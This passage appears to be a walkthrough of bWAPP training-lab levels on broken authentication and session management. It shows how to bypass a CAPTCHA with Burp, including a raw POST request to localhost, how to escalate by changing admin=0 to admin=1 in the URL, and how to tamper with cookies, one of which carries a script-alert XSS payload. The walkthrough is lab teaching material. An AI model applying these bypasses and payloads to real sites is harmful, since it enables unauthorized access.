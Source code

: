 ### 💀  Broken Auth. - CAPTCHA Bypassing 💀

Using Burp, do not allow the webpage to load captcha_box.php, this page loads the server's session variable $\_SESSION["captcha"] which will then require a check on ba_captcha_bypass.php
The second requirement is to prevent captcha_user from being submitted by the client. Eliminate this using Burp:

```
POST /ba_captcha_bypass.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/ba_captcha_bypass.php
Cookie: PHPSESSID=67a6abb1d7ff40c55ad50d3aa43fc7c4; security_level=0
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

login=bee&password=bug&form=submit
```

### 💀  Broken Auth. - Logout Management 💀

Open second tab and logout. Second tab will still have session.
at just redirects to the login page but does not deletes the session and cookie 
after loggin out you can still use the app with out logging in again and if you check the PHPSESSID at will still exists

### 💀  Session Mgmt. - Administrative Portals 💀

set the following in the URL.
easy right ;)
admin is kind of bool variable

from
```
admin=0
```
to
```
admin=1
```
### 💀  Session Mgmt. - Cookies (HTTPOnly) 💀
viewing and writting cookies
you can change the current with these

use burp
```
security_level=0; PHPSESSID=ing4kmubr61dqeskckjb4dfu9h; top_security=yes;hacker_loi=<script>alert('lol')</script>
```
### 💀  Session Mgmt. - Cookies (Secure) 💀
viewing and writting cookies
you can change the current with these
